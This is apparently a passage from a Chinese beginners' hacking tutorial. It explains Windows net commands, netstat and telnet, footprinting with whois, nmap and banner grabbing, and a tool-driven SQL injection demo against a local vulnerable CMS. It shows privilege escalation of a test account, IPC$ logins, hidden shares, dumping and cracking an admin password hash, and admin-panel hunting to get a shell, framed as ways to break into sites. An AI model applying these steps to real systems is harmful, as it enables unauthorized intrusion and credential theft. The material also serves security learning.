

例如上节所创建的用户名test为本地组users成员，属于受限帐户，没有系统帐户等相关计算机管理权限；而计算机系统管理员所在的组为administrators，所以如需该帐号拥有管理计算机的一切权限，则需要把此帐号添加到管理组。键入命令`net localgroup administrators test /add`，可以把帐号添加到管理组中。命令成功后，再次键入用户帐号信息查询命令（`net user [username]`），从图中可以看到用户帐号test已成功加入administrators管理组中。（图9）



###### 3. net use

此命令作用是将计算机与共享资源连接或断开，或者显示关于计算机连接的信息。

```text
net use [devicename | *] [\\computername\sharename[\volume]] [password | *] [/user:[domainname\]username] [/delete] [/persistent:{yes | no}]
```

键入不带参数的`net use`为检查网络连接列表。（图10）



下面使用本地计算机与用户名为`test`、密码为`admin888`的局域网计算机（`192.168.0.104`）进行IPC$连接。命令为：`net use \\192.168.0.104\IPC$ admin888 /user:test`。如果密码为空则键入：`net use \\192.168.0.104\IPC$ "" /user:test`（图11）。

退出IPC$连接命令为：`net use \\192.168.0.104\IPC$ /del`。（图12）





###### 4. net share

此命令主要用于创建、删除或显示共享资源。

```text
net share sharename=drive:path [/users:number | /unlimited] [/remark:text]
```

其中参数`sharename`是共享资源的网络名称，`drive:path`指定共享目录的绝对路径，`users:number`设置可同时访问共享资源的最大用户数，`unlimited`表示不限制同时访问共享资源的用户数，`remark:"text"`添加关于资源的注释，注释文字用引号引住。

比如将`D:\tools`目录共享，并设置共享资源网络名称为“hacker tools”，最大共享人数为10人，注释文字为“黑客工具共享目录”，其命令为：`net share "hacker tools"=D:\tools /users:10 /remark:"黑客工具共享目录"`。使用`net share`命令可查看是否成功创建。（图13）


或者打开共享目录根目录进行查看验证（有小手托住的则为已共享目录）（图14）。

如果需要隐藏共享，则在命令的共享资源网络名称后面加`$`号。例如：`net share "hacker tools"$=D:\tools /users:10 /remark:"黑客工具共享目录"`。

此时再打开共享目录根目录查看，则看不到有小手托图标的tools文件夹，在表现形式上看起来是隐藏效果。


###### 5. net start/pause/continue/stop

此命令分别控制启动、暂停、继续以及停止网络服务。

`net start`命令表示开启一个服务。命令格式为：`net start service`

其中`service`表示网络上的服务名称，下面以……


telnet 服务为例。

- 开启 telnet 服务则键入命令：`net start telnet`。（图15）
- 暂停 telnet 服务则键入命令：`net pause telnet`。（图16）
- 继续 telnet 服务则键入命令：`net continue telnet`。（图17）
- 停止 telnet 服务则键入命令：`net stop telnet`。（图18）

###### 6. net 其他常用命令

Net view 命令主要作用是显示域列表、计算机列表以及指定计算机的共享资源列表。命令格式：

```bash
net view [\\computername] [/domain[:domainname]]
```

其中参数 `computername` 指要查看其共享资源的计算机，`/domain[:domainname]` 指定要查看可用计算机的域。

键入不带参数的命令 `net view` 则显示当前域的计算机列表。（图19）

查看本域某计算机的共享资源则键入 `net view \\计算机名` 或计算机域 IP。（图20）

Net time 命令作用是使一个计算机的时钟与另一个计算机或域的时钟同步，或者显示一个计算机或域的时间。命令格式：

`net time \\computername | /domain[:domainname] | /rtsdomain[:domainname] [/set]`

其中参数 `\\computername` 指用户希望进行检查或同步的计算机名字，`/domain[:domainname]` 指定同步该域的主域控制器的时间，`/rtsdomain[:domainname]` 指定同该域的可靠时间服务器同步，`/set` 使计算机上的时间与指定的计算机或域上的时间同步。

```bash
net time \\LENOVO-612684BD
net time \\192.168.0.101
```

`Net send` 命令作用是给其他用户、计算机或网络上的消息名发送消息。

命令格式：`net send {name | * | /DOMAIN[:name] | /USERS} message`

其中参数 `name` 指消息发送到的用户名、计算机名或消息名；`*` 将消息发送给用户组中的所有用户；`/domain[:name]` 将消息发送给工作站域中所有的名字；`/users` 将消息发送给与服务器相连的所有用户；`message` 指作为发送的消息文本。

发送消息的前提是进行通信的计算机必须运行信使服务（Messenger）以接收消息。该服务用于传输客户端和服务器之间的 NET SEND 和 Alerter 服务消息，默认是禁用的。可运行 `services.msc` 找到“Messenger”，将启动类型改为“自动”（或“手动”），再启动服务，或执行 `net start messenger`。

```bash
net send LENOVO-612684BD "hello world!"
net send 192.168.0.101 "hello world!"
```

此时接收端计算机就会弹出信使服务对话框显示发送的消息内容。（图25）

Net name 命令作用于添加或删除一个计算机上的消息名（别名）。

```bash
net name [name [/ADD | /DELETE]]
```

`name` 指定接收消息的名字，该名字最多可以使用 15 个字符。

`/add` 为计算机添加一个名字，`/del` 为计算机删除一个名字。

键入一个不带参数的 `net name` 则显示本机的消息名称列表。（图26）

添加一个接收消息用户名 `test`，则键入命令：`net name test /add`，使用空参数查询消息名称列表验证是否添加成功。（图27）

删除一个接收消息用户名 `test`，则键入命令：`net name test /del`，使用空参数查询消息名称列表验证是否删除成功。（图28）

Net config 作用于显示工作站或服务器服务的配置信息。命令格式：`net config service options`

其中 `service` 是通过 `net config` 命令进行配置的服务，`options` 是服务的特定选项。

键入不带参数命令 `net config` 则显示可配置服务列表。（图29）

键入命令 `net config workstation` 则显示本机的配置信息。（图30）

## 2.4.2 Netstat命令

Netstat 命令是用于显示协议统计信息和当前的 TCP/IP 网络连接，其操作简单。

Netstat 用于显示与 IP、TCP、UDP 和 ICMP 协议相关的统计数据，一般用于检验本机各端口的网络连接情况。

如果你的计算机有时候接收到的数据报导致出错数据或故障，你不必感到奇怪，TCP/IP 可以容许这些类型的错误，并能够自动重发数据报。但如果累计的出错情况数目占到所接收的 IP 数据报相当大的百分比，或者它的数目正迅速增加，那么你就应该使用 Netstat 查一查为什么会出现这些情况了。

- 1. netstat -a

此命令显示所有连接和监听的端口。（图31）

- 2. netstat -e

本选项用于显示关于以太网的统计数据。它列出的项目包括传送的数据报的总字节数、错误数、删除数、数据报的数量和广播的数量。这些统计数据既有发送的数据报数量，也有接收的数据报数量。这个选项可以用来统计一些基本的网络流量，可以与 `-s` 选项组合使用。（图32）

- 3. netstat -s

本选项能够按照各个协议分别显示其统计数据。如果你的应用程序（如 Web 浏览器）运行速度比较慢，或者不能显示 Web 页之类的数据，那么你就可以用本选项来查看一下所显示的信息。你需要仔细查看统计数据的各行，找到出错的关键字，进而确定问题所在。（图33）

- 4. netstat -r

本选项可以显示关于路由表的信息，类似于后面所讲使用 `route print` 命令时看到的信息。除了显示有效路由外，还显示当前有效的连接网卡地址与型号信息。（图34）

- 5. netstat -n

此命令显示所有当前已建立的有效连接。（图35）

## 2.4.3 telnet

telnet 服务简单来说，是用于 Internet 远程登录，用户可以使用 telnet 命令通过网络控制远程计算机，使它们相互连通。

通过使用 Telnet，Internet 用户可以与全世界许多信息中心、图书馆及其他信息资源联系。Telnet 远程登录的使用主要有两种情况：第一种是用户在远程主机上有自己的账号（Account），即用户拥有注册的用户名和口令；第二种是许多 Internet 主机为用户提供了某种形式的公共 Telnet 信息资源。

命令格式：`telnet computername` 或 `IP`

下面使用 telnet 入侵本地一台 IP 为 192.168.0.108 的计算机，键入命令 `telnet 192.168.0.108`。（图36）

提示是否把密码信息送到 Internet 区内的远程计算机，直接键入 N 回车。

提示输入该计算机的用户名，输入后回车键，再次提示输入密码，此处的密码输入时没有任何显示。（图37）

回车键后就可进入目标计算机，可以通过各种命令进行控制此计算机。（图38）

当用户需要退出登录时，只需再键入 `exit` 即可。

### 第三章 网络安全入门

#### 3.1 踩点

从踩点开始，在《孙子兵法》中有一句名句：“知己知彼，百战不殆；不知彼而知己，一胜一负；不知彼不知己，每战必败。”踩点（Footprinting）主要是收集目标重要信息。例如：当一个劫匪去珠宝店抢珠宝的时候，肯定是要经过踩点，探查周围的环境、警察的活动时间、逃跑路线等。总而言之，一个明智的劫匪不会盲目地去抢劫。我们踩点需要一些什么信息呢？我们需要获得的是 IP 地址、端口信息、域名信息、服务器等信息。

##### Whois

Whois（读作：Who is）是用来查询互联网中域名的 IP 以及所有者等信息的传输协议。每个域名的管理组织是不一样的，比如：以 `.com` 结尾的域名的 WHOIS 信息由 `.com` 域名运营商 VeriSign 管理，中国国家顶级域名 `.cn` 是由 CNNIC 管理。

我们先来查询下域名的 Whois 信息。首先我们进入 http://whois.webmasterhome.cn/，我们来查询一下百度的 Whois 吧，在域名框内输入“Baidu.com”点击 Whois 查询，我们可以得到一些有用的信息，如图1、图2所示。

从图片我们不难看出，Baidu.com 这个域名是在国外的一家域名机构 MARKMONITOR INC. 注册的。国人注册的一些域名大多都比较喜欢选择 XinNet 或者 Godaddy。Name Server 则代表的是 DNS 服务器，百度的 DNS 主要分布在 ns2.baidu.com、dns.baidu.com、ns4.baidu.com、ns3.baidu.com 四台机子中。其他的信息则是域名持有人的个人信息或者公司信息，可以备份下来留作社会工程学。

##### 端口

讲到开放端口扫描，这里笔者就为大家介绍几款常用的端口扫描工具。

##### S.exe

S.exe 又称扫描器，它是一款命令行下高速扫描利器。

### X-SCAN

X-Scan 是国内最著名的综合扫描器之一，它完全免费，是不需要安装的绿色软件，界面支持中文和英文两种语言，包括图形界面和命令行方式，使用起来也相对简单。

##### Nmap

nmap 是一个网络连接端口扫描软件，用来扫描网上电脑开放的网络连接端口，确定哪些服务运行在哪些端口，并且推断哪些操作系统在运行（这亦称 fingerprinting）。它是网管管理员必用的软件之一，以及用以评估网络系统保安。

Nmap 就是我们今天所要使用的扫描工具。我们从安装包中安装 Nmap - Zenmap GUI，运行界面如图3所示。

我们在 Target 编辑框中输入我们的域名，在这里我就把“D99net.net”做测试使用，Profile 选择“intense scan”，其他的系统就会自动填充了；然后我们点击“Scan”开始扫描。Nmap 是一款非常强大的扫描工具，我们切换到“Host details”选项卡可以看到扫描的进度，从“ports / hosts”选项卡中可以看到开启的端口。（图4、图5）

我们可以通过 nmap 的扫描结果加以分析，且标注机器是采用什么操作系统，是 Win 还是 Linux，是否安装了其他可以利用的东西，如 server-u、ftp、mysql、mssql 等等。

##### 在线版端口扫描

大家如果觉得工具不太方便的话，也可以直接使用 Chinaz 提供的在线端口扫描工具，地址为：http://tool.chinaz.com/port，界面如图6所示。我们可以参考一下维基百科的 TCP/UDP 端口列表：http://zh.wikipedia.org/wiki/TCP/UDP%E7%AB%AF%E5%8F%A3%E5%88%97%E8%A1%A8。

##### 端口踩点再深入

从上文中我们懂得了如何去扫描目标所开放的端口，下面我们就利用开放的端口来进一步地踩点吧。首先使用 telnet 探一下系统的类型，我们打开运行窗口，输入 `telnet 116.252.185.*** 80`（IP 我隐藏了一部分），然后按回车，之后它就显示连接中。当它什么内容也没有出现的时候，我们盲打 `get` 再按回车，就可以看到下面的返回值了。

```text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Fri, 15 Jul 2011 02:31:55 GMT
Content-Type: text/html
Content-Length: 87
The parameter is incorrect.
```

我们就可以初步判断这是一台 Windows 的主机，建站环境是用 IIS 5.0 搭建。人品好的话还会碰到更多有价值的信息。如果返回：

```html
<html><head><title>400 Bad Request</title></head><body bgcolor="white"><center><h1>400 Bad Request</h1></center><hr><center>nginx/0.8.53</center></body></html>
```

从中我们可以获取到 nginx/0.8.53，这个要根据经验来判断了。一般 nginx 在 Unix 系统的计算机中较常见，一般 Win 主机则使用 IIS 的居多。

### 21端口

21 端口就是默认的 FTP 连接端口，我们可以用其探测到目标主机所使用的 FTP 软件名称，或者空间信息等等。因此在探测之前必须确认 21 端口为开启状态，否则此命令将无法使用。

下面我就来测试一下吧，我们在运行窗体中输入命令：`ftp 75.119.218.***`，随后返回值如图7所示。

发现了个很奇怪的东西，DreamHost FTP Server。从这个我们可以获取一个空间信息：目标主机是在 DreamHost（国外一家大型虚拟主机服务商）。当然返回这个数值也是一个例外，我们再换一个目标演示，它的返回值如图8所示。

从图中我们很明显就可以看到一句英文“welcome to pure-FTPd [privsep] [TLS]”，我们得知目标站点的 FTP 环境是使用 pure-FTPd 搭建的，而 Pure-FTPd 能够在许多类 Unix 系统上编译和运行。Pure-FTPd 基于 Troll-FTPd，所以我们可以判断出目标主机使用的是 Unix 系统。

我们再次改变目标主机依然采用上述的方法，这次发现返回值和上两次不一样了，如图9所示。

很容易就知道目标主机采用 Serv-U FTP Server V6.4 来搭建 FTP 环境。Serv-U 只支持 3x/9x/ME/NT/2K 等全 Windows 系列，所以我们在判断 FTP 服务器的同时还可以判断出目标主机系统是 Win 的。

#### 3.2 简单的注入原理（入门篇）

注入漏洞简介及防御：在针对网站的攻击方法中有一种叫注入攻击。它曾经很流行，至今仍然是一种威力相当大的攻击方法。今天就给大家简单介绍下注入漏洞以及针对该漏洞的简单防御方法。

##### 3.2.1 什么是注入

随着 B/S 模式应用开发的发展，使用这种模式编写应用程序的程序员也越来越多，但是由于程序员的水平及经验参差不齐，相当大一部分程序员在编写代码的时候没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的 SQL Injection，即 SQL 注入。成功利用注入攻击，可以很轻松地查到敏感信息（管理员的用户名和密码等），甚至能拿下整个服务器。

##### 3.2.2 注入攻击的分类

根据在 SQL 注入攻击时是使用工具还是手工注入，分为工具注入和手工注入。工具注入操作简单，速度快，适合新手使用；手工注入比较麻烦，但灵活性强，有些注入点注入漏洞工具不能进行注入时只能用手工注入，需要学一些手工注入的知识和记一些注入命令，适合有一定相关知识基础的人进行。考虑到有些朋友可能是新手，因此我只介绍利用工具的注入。

根据网站采用的程序不同，注入攻击又分为 ASP 程序下的注入、PHP 程序下的注入、JSP 程序下的注入等。根据网站程序所利用数据库软件的不同，又分为 Access、MSSQL、MySQL、Oracle 等数据库软件下的注入，而且针对不同数据库软件可以利用的注入方法也不尽相同。一般说来，小型网站利用 Access 数据库软件的比较多，稍微大点的网站利用 MSSQL 和 MySQL 数据库软件的比较多，大型网站没接触过，听说利用的是 Oracle 数据库软件，听说而已，哈哈。

注入攻击在 04、05、06 年非常火，随便拿个注入工具就可以拿下一批存在注入漏洞的网站。这几年很多网站也在攻与防中加强了网站的安全，现在存在注入漏洞的网站已经不是遍地都是了，至少不如以前那么多了，但只要你耐心找，还是能找到很多存在注入漏洞的网站的。又因为针对存在 SQL 注入漏洞的网站的攻击比较简单，所以 SQL 注入攻击仍然是新手拿站的一种重要方法。相比而言，我觉得利用注入工具针对采用 Access 数据库软件的 ASP 程序存在的注入漏洞进行攻击是最简单的，今天就通过一个实例来演示用工具对采用 Access 数据库软件的 ASP 程序进行注入攻击的方法。

##### 3.2.3 一个注入攻击实例

- 1. 找到注入点

为了演示注入漏洞的利用过程又不对别人的网站造成伤害，我找到了一套存在 SQL 注入漏洞的 ASP 程序——W78 企业 ASP 网站管理系统 V1.1，在我的 VMware Workstation 虚拟机里的 Windows 2003 系统中用 IIS 6.0 搭建好了漏洞演示环境，网站的访问地址为 http://127.0.0.1/，网站首页显示如图1。

## 菜鸟轻松学攻防

要进行注入攻击，首先要找到注入点。注入点就是存在注入漏洞、可以进行注入攻击的一个链接地址，比如 `http://www.xxx.com/news.asp?id=321`。找注入点既可以用工具来查找，也可以直接通过手工方式来查找。利用工具找注入点方便快捷；利用手工找注入点准确灵活，但需要记住一些注入语句。前面已经介绍过利用工具的注入攻击，找注入点也介绍用工具。找注入点可以利用的工具不少，比如著名的注入漏洞工具啊D、综合 Web 漏洞扫描程序 JSky 等。今天我就用 JSky 来查找注入点。


图1

JSky（中文名字为“揭惑”）是深圳市宇造诺赛科技有限公司推出的一款简明易用的 Web 漏洞扫描软件，是一款针对网站漏洞扫描的安全软件。JSky 能够评估一个网站是否安全，对网站进行漏洞分析，判断是否存在漏洞，又称为网站漏洞扫描工具。JSky 作为一款国内著名的网站漏洞扫描工具，提供网站漏洞扫描服务，即能查找出网站中的漏洞；网站漏洞检测工具提供网站漏洞检测服务，即能模拟黑客攻击来评估计算机网站安全的一种评估方法。渗透测试模块能模拟黑客攻击，让您立刻掌握问题的严重性。有了 JSky 之后，网站管理者就可以方便快捷地进行网站漏洞分析，然后进行网站漏洞修复，这样就能减少网站被攻击的危害，保证公司正常业务的开展，维护企业的形象。


图2

JSky 是一款收费软件，但有功能受限的免费版。由于最新版本的 JSky 免费版我没找到下载地址，就用以前下载的 JSky 免费版 JSky 1.0.0 beta 来给大家演示了，希望大家不要介意。JSky 1.0.0 beta 不需要安装，解压后可以直接双击 JSky.exe 来启动。JSky 启动后的界面如图2，使用语言是英文。


图4

下面来用 JSky 查找虚拟机里漏洞演示网站的注入点。选择 JSky 的“File”菜单下的“New Scan”来新建一个扫描（图3），会出来如图4的扫描向导。


图3


图5


图6


图7

首先要设置的是扫描目标的 URL 地址，默认是 `http://127.0.0.1/`。因为我们虚拟机里漏洞演示网站的 URL 地址正好也是 `http://127.0.0.1/`，不用修改。点“Next”按钮来到蜘蛛爬行设置的地方（图5），这里都保持默认配置；点“Next”来到选择扫描类型的地方，在这里你可以选择扫描哪种类型的漏洞。免费版 JSky 1.0.0 支持扫描的漏洞类型为 Blind SQL Injection（盲注）、Dir bruteforce（路径暴力猜测）、File Check（文件检查）、File include and source code（文件包含和源代码泄露）、SQL Injection（SQL 注入）、Web Server Method（Web 服务器类型）、XSS（跨站漏洞），如图6。你可以选“All”扫描支持的所有漏洞，也可以选择某两种漏洞。这里我选择“All”，也就是扫描所有支持的漏洞。点“Next”按钮后来到了“Others configuration”的地方，在这里可以设置一些其他选项，比如 User-Agent 信息等（图7），这里还是保持默认配置，点“Finish”按钮完成扫描向导。

此时图8中的“扫描”按钮变成可用状态，点击它就开始扫描了。等待一段时间等扫描完成。等待时间的长短和要扫描网站的规模以及到目标网站的网络速度有关：网站规模越小、网络速度越快，扫描所用时间越短，反之亦然。


图8

扫描完成后结果如图9。软件左下图表中红颜色的 High 级别是高危漏洞，再看软件右上，发现了 10 个“SQL Injection”漏洞。点击“SQL Injection”漏洞前面的加号，就可以展开找到的所有注入点了。每一个注入点都显示了两次，所以实际是 5 个注入点，如图10。

###### 2. 爆管理员用户名和密码

已经找到了注入点，怎样利用这个注入点呢？对于采用 Access 数据库的程序，如果存在注入漏洞，可以爆数据库中的数据。我感兴趣的是网站管理员的用户名和密码，来尝试爆它们。用到的工具也是 JSky 出品公司出的 Pangolin，而且不用单独去下载 Pangolin，因为 JSky 已经集成了 Pangolin。在扫描出的第一个注入点 `http://127.0.0.1:80/about.asp?id=3` 上点击鼠标右键，在弹出的功能菜单中选择“Pen-test this vulnerability”就打开了注入漏洞利用工具 Pangolin，并且自动对该注入点进行初步检测，如图11。检测结果是 type 为 Integer，DB 为 Access，也就是注入点类型为数字型，数据库为 Access。


图9


图10

点软件的“Datas”选项卡来到爆数据的地方，如图12。首先来看漏洞测试网站的数据库中都有哪些表。点“Tables”按钮来猜表。Pangolin 收集了一些数据库中常见表名，一一检测漏洞演示网站的数据库中是否存在这些表名，存在就会在下面显示。很快扫描出了 4 个表：admin、news、config、book，如图13。


图12


图11

admin 表看名字像存放管理员信息的，重点看这个表。用鼠标双击 admin 这个表，或鼠标单击选中 admin 这个表后点“Columns”按钮，就开始检测表 admin 中的列了。检测完成后点击表名 admin 前面的加号，就可以看到检测出的列名。检测出了 3 个列名：id、password、admin，如图14。选中这 3 个列，软件界面中偏下稍微偏左的“Datas”按钮变成可用状态，点击它开始猜 admin 中 id、password、admin 3 个列中的具体内容。很快就出来了结果，如图15。爆出的管理员用户名为 admin，密码为 `21232f297a57a5a743894a0e4a801fc3`（双击结果，会在软件下面显示双击内容，这样内容就可以复制了，如图16）。密码 `21232f297a57a5a743894a0e4a801fc3` 是经过 MD5 算法加密后的值，在在线破解网站可破解出密码为 admin。


## 3. 找后台地址（拿 shell）

通过注入已经获得了目标网站管理员的用户名和密码，可以考虑进后台拿 shell 了。但要进后台必须知道后台地址，否则即使有管理员用户名和密码也没用。下面介绍几种找网站后台地址的方法。

####### ① 搜索引擎批量测试

就是直接尝试在网站地址后面加上常用的后台目录，看能不能出来后台登录页面。比较常见的后台目录有 admin、system、manage、manager、administrator 等。由于手工输入速度慢，最多也就尝试常用的这几个。


针对虚拟机里的漏洞测试网站来利用下这个方法。在目标网站地址 `http://127.0.0.1/` 后面加上 admin，回车后就看到了如图17的后台登录页面。看来 W78 企业 ASP 网站管理系统 V1.1 的默认后台目录就是 admin。


####### ② 用工具扫

用手动尝试的方法最多试 10 来个，如果后台目录不是最常见的，用手动尝试找不到，就要考虑用工具扫了。工具可以利用后台目录字典在短时间内扫描几百甚至上千条后台目录。能扫后台目录的工具也不少，比如啊D注入工具、SRC Web Vulnerability Scaner 等。SRC Web Vulnerability Scaner 是 CuteXx 写的一款 Web 资源扫描器，可以扫描目录和文件，小巧快速，强力推荐，我用它来找网站后台地址。

双击 WVS.exe 打开 SRC Web Vulnerability Scaner，软件界面如图18。在“主机域”后面的输入框中输入要扫描网站的域名、IP 地址或 URL 地址，这里我输入虚拟机中漏洞演示网站的地址 `http://127.0.0.1/`，点绿色按钮开始扫描。很快就扫描完成了。点软件左面“Tool Box”下的“Result View”来看扫描结果，显示如图19。


